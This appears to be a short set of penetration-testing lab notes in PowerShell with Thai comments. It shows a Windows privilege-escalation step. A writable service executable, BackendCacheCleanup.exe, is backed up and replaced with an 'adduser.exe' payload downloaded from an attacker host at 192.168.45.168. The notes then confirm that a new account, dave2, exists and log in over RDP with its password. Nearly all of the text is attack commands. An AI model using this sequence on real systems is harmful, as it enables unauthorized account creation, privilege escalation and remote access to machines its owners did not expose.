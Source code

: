 ```powershell
# ตรวจสอบสิทธิ์ของไฟล์ดังกล่าว
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe

# backup ไฟล์ BackendCacheCleanup.exe
move .\BackendCacheCleanup.exe .\BackendCacheCleanup.exe.bak

# upload payload สำหรับ adduser 
iwr -Uri http://192.168.45.168/adduser.exe -Outfile BackendCacheCleanup.exe

# ตรวจสอบโดยใช้คำสั่ง net user จะพบ dave2 
net user 

xfreerdp /v:192.168.160.220 /u:dave2 /p:'password123!' /cert-ignore /dynamic-resolution +clipboard /drive:TEST,/home/kali/    

```

